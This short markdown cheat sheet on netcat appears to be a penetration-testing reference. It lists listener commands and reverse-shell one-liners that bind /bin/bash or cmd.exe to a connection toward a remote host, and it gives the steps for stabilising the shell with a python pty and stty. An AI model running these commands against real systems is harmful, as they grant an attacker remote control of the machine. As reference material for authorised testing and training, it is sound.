 # Netcat - NC

## Listner

```
nc -nlvp <LPORT>
```

```
rlwrap nc -nlvp <LPORT>
```

## Connect

```
nc <RHOST> <RPORT>
```

Use `-e` to link the connection to a program 
```
nc -e /bin/bash <RHOST> <RPORT>
```

```
nc -e cmd.exe <RHOST> <RPORT>
```

## Stabilize Reverse Shell

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl z
stty raw -echo; fg
```

## Links

[Stabilize a reverse shell](https://tkcyber.com/index.php/2022/06/19/stabilize-a-reverse-shell/)